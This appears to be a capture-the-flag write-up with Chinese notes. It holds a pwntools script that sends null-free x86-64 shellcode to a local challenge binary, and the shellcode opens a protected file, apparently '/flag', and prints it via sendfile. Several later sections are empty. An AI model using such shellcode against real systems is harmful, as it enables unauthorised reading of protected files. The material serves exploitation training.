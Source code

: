 ```python
```
## null-free shellcode
基本上就是数据中的空字节处理，sc方法不变
```python

from pwn import *
context(os='linux', arch='amd64')
io=process('binary-exploitation-null-free-shellcode')
print(hex(0x1010101010101010^1000))
sc = asm('''
mov rbx,0x1010101010101010
mov rcx,0x10101077717c763f
xor rbx,rcx

push rbx

xor rax,rax
mov al,2

mov rdi,rsp
xor rsi,rsi
syscall

xor rdi,rdi
xor rdi,1
mov rsi,rax
xor rdx,rdx

mov ax,0x3e8
shl rax,48
shr rax,48
mov r10,rax

xor rax,rax
mov al,40

syscall

xor rax,rax
mov al,60
syscall
''')

print('\n',sc,'\n')
pl=bytes(sc)

io.send(pl)
print(io.recvall().decode())
# io.interactive()
```
## hijack to (mapped) shellcode (easy)
```python

```
## hijack to (mapped) shellcode (hard)
```python

```
## hijack to shellcode (easy)
```python
```